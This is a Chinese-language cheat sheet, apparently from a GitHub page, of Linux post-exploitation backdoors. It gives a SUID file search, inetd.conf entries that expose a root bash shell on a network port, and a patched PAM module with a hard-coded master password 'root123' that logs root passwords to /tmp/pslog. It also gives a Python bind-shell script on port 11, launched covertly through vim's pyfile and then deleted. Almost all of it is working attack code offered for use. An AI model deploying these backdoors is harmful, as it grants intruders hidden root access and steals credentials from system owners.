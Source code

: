 ```bash
```
如何查找那些具有 SUID 的文件: `dawg:~# find / -perm +4000 -ls` 这时就会返回具有 SUID 位的文件啦。

**远程后门**

```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用 nc 来爆菊
```
可以修改/etc/services文件，加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM 后门**

主要思路:pam_unix_auth.c 打补丁安装到正常的 PAM 模块中。
1、获取目标系统所使用的 PAM 版本：
`rpm -qa |grep pam`
2、编译安装 PAM
3、将本地 pam_unix_auth.c 文件通过打补丁方式，编译生成。
4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，后门密码为 root123,并会在 /tmp/pslog 记录 root 登录密码。

**vim 后门**

此方法适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统,至于恶意脚本 dir.py 的内容可以是任何功能的后门。如 python 版本的正向后门监听 11 端口。

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`

```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`
